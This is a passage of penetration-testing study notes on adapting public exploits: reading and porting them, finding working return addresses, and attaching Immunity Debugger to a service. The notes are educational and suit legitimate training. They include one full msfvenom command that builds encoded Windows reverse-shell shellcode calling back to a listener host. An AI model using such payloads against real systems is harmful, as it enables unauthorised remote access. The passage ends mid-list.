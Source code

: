 
To avoid downtime we should always read exploit code carefully, modify as needed and test it against our own sandboxed target when possible.

Sometimes it is useful to port an exploit to a different language to utilize different pre-written libraries and extend exploit functionality.

Sometimes exploits need to be compiled on different systems.

#### Fixing

If our exploit does not work due to the return address not being available or utilizing return addresses of DLLs that are not present - we can further search for other public exploits for the same vulnerability with working return addresses that have been verified by exploitDB

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` - replacing shellcode of an exploit.


#### Immunity Debugger

1. start service on our host.
2. launch immunity debugger
3. attach to service
4. click view
5. click executable modules - this is where we can confirm which DLLs are available and used in our service we are debugging by checking name and values
6. 